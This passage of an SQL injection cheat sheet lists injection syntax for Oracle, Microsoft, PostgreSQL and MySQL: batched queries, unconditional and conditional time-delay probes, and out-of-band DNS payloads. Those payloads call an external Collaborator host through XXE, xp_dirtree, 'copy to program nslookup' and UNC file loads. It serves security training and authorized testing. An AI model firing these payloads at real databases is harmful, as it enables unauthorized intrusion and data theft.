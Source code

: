 | Oracle     | `Does not support batched queries.`                                                      |
| ---------- | ---------------------------------------------------------------------------------------- |
| Microsoft  | <p><code>QUERY-1-HERE; QUERY-2-HERE</code><br><code>QUERY-1-HERE QUERY-2-HERE</code></p> |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`                                                             |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE`                                                             |

**Note**

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

### Time delays <a href="#time-delays" id="time-delays"></a>

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| ---------- | ------------------------------------- |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |

### Conditional time delays <a href="#conditional-time-delays" id="conditional-time-delays"></a>

You can test a single boolean condition and trigger a time delay if the condition is true.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'\|\|dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual` |
| ---------- | ---------------------------------------------------------------------------------------------------------------- |
| Microsoft  | `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`                                                                |
| PostgreSQL | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`                                  |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`                                                                   |

### DNS lookup <a href="#dns-lookup" id="dns-lookup"></a>

You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.

| Oracle     | <p>(<a href="https://portswigger.net/web-security/xxe">XXE</a>) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:</p><p><code>SELECT EXTRACTVALUE(xmltype('&#x3C;?xml version="1.0" encoding="UTF-8"?>&#x3C;!DOCTYPE root [ &#x3C;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual</code></p><p>The following technique works on fully patched Oracle installations, but requires elevated privileges:</p><p><code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code></p> |
| ---------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| MySQL      | <p>The following techniques work on Windows only:</p><p><code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br><code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></p>                                                                                                                                                                                                                                                                                                                                                                                                                               |
